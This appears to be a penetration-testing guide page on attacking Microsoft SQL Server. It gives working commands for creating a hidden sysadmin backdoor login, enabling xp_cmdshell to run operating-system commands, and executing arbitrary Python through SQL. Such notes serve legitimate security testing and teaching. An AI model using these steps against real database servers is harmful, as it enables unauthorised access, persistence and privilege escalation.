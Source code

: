 # MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database. The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system. It is some of these features however that can allow us to get a strong foothold on a device.

There's a lot of fantastic tools and resources designed specifically for dealing with MS-SQL:

* [PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)- An enumeration and privilege escalation tool for MS-SQL in Powershell
* [msdat ](https://github.com/quentinhardy/msdat)- Microsoft SQL Database attacking tool
* [NetSPI Blog](https://blog.netspi.com/)
* [MS-SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Connecting

There are multiple ways to interface with an MS-SQL server.  If on Linux then I'd recommend using [sqsh](https://sourceforge.net/projects/sqsh/), as it's simple and allows you to quickly create commands:

```bash
sqsh -S 192.168.0.6 -U sa
```

However, I'd strongly recommend setting up a Windows VM and using [SQL Management Server](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017), as it allows you to quickly create scripts for enumeration and offers a graphical view for enumerating the database which can make extracting information much quicker.

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication. We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

It's easy to execute commands on the host operating system as the service account using xp\_cmdshell.  By default this is unfortunately disabled, and to re-enable and use it the SQL accounts requires sysadmin level privileges.

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Python Code Execution

In some cases python code execution is available as part of an SQL transaction.  This obviously allows arbitary code execution, but the python interpreter is not always as locked down as xp\_cmdshell, which may allow further exploitation and privilege escalation.

```sql
EXEC sp_execute_external_script @language = N'Python', @script = N'import os
print os.system("ls -la")'
```

#### References

[The Power of Python and SQL Server 2017](https://www.red-gate.com/simple-talk/sql/sql-development/power-python-sql-server-2017/)

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

